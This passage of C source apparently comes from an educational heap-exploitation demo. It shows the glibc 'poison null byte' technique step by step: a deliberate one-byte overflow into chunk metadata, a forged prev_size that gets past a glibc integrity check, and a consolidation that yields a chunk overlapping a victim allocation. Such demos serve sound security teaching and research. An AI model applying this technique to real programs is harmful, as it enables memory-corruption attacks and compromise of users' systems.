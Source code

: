 ```c

	uint64_t* b_size_ptr = (uint64_t*)(b - 8);

	// added fix for size==prev_size(next_chunk) check in newer versions of glibc
	// https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30
	// this added check requires we are allowed to have null pointers in b (not just a c string)
	//*(size_t*)(b+0x9f0) = 0xa00;
	printf("In newer versions of glibc we will need to have our updated size inside b itself to pass "
		"the check 'chunksize(P) != prev_size (next_chunk(P))'\n");
	// we set this location to 0xa00 since 0xa00 == (0xa11 & 0xff00)
	// which is the value of b.size after its first byte has been overwritten with a NULL byte
	*(size_t*)(b+0x9f0) = 0xa00;

	// this technique works by overwriting the size metadata of a free chunk
	free(b);
	
	printf("b.size: %#lx\n", *b_size_ptr);
	printf("b.size is: (0xa00 + 0x10) | prev_in_use\n");
	printf("We overflow 'a' with a single null byte into the metadata of 'b'\n");
	a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
	printf("b.size: %#lx\n", *b_size_ptr);

	uint64_t* c_prev_size_ptr = ((uint64_t*)c)-2;
	printf("c.prev_size is %#lx\n",*c_prev_size_ptr);

	// This malloc will result in a call to unlink on the chunk where b was.
	// The added check (commit id: 17f487b), if not properly handled as we did before,
	// will detect the heap corruption now.
	// The check is this: chunksize(P) != prev_size (next_chunk(P)) where
	// P == b-0x10, chunksize(P) == *(b-0x10+0x8) == 0xa00 (was 0xa10 before the overflow)
	// next_chunk(P) == b-0x10+0xa00 == b+0x9f0
	// prev_size (next_chunk(P)) == *(b+0x9f0) == 0xa00
	printf("We will pass the check since chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))\n",
		*((size_t*)(b-0x8)), *(size_t*)(b-0x10 + *((size_t*)(b-0x8))));
	b1 = malloc(0x500);

	printf("b1: %p\n",b1);
	printf("Now we malloc 'b1'. It will be placed where 'b' was. "
		"At this point c.prev_size should have been updated, but it was not: %#lx\n",*c_prev_size_ptr);
	printf("Interestingly, the updated value of c.prev_size has been written 0x10 bytes "
		"before c.prev_size: %lx\n",*(((uint64_t*)c)-4));
	printf("We malloc 'b2', our 'victim' chunk.\n");
	// Typically b2 (the victim) will be a structure with valuable pointers that we want to control

	b2 = malloc(0x480);
	printf("b2: %p\n",b2);

	memset(b2,'B',0x480);
	printf("Current b2 content:\n%s\n",b2);

	printf("Now we free 'b1' and 'c': this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').\n");

	free(b1);
	free(c);
	
	printf("Finally, we allocate 'd', overlapping 'b2'.\n");
	d = malloc(0xc00);
	printf("d: %p\n",d);
```